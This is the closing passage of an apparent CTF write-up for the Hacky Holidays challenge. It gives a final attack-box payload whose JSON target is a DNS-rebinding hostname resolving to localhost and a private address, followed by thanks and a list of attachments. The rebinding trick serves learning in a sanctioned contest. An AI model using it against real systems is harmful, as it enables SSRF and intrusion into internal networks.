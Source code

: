 Payload:

- https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiI3ZjAwMDAwMS5jMGE4MDAwMS5yYm5kci51cyIsImhhc2giOiJkZTlkODJkNGFlOWE2MTY2MDcwMWU3ZTE4NDRlYTY0MyJ9

```json
{"target":"7f000001.c0a80001.rbndr.us","hash":"de9d82d4ae9a61660701e7e1844ea643"}
```

If the attack is successful, we take down the Grinch Network server and get redirected to https://hackyholidays.h1ctf.com/attack-box/challenge-completed-a3c589ba2709 and complete the CTF.

{F1130195}

---------------------------

## Impact

- The sum of multiple vulnerabilities resulted in the ability to take down Grinch Networks.

Great CTF and amazing work @Hacker0x01 & @adamtlangley.

Have a nice end of the year, zonduu.

## Attachments
- 1.PNG
- flag-7.PNG
- flag-8.PNG
- toggle5.rule
- flag-8.3.PNG
- flag-9-this.PNG
- flag11.PNG
- final_flag.PNG
- getflags.PNG
- flag-9-flag.PNG
- flag-8.2.PNG
- flag-10.PNG
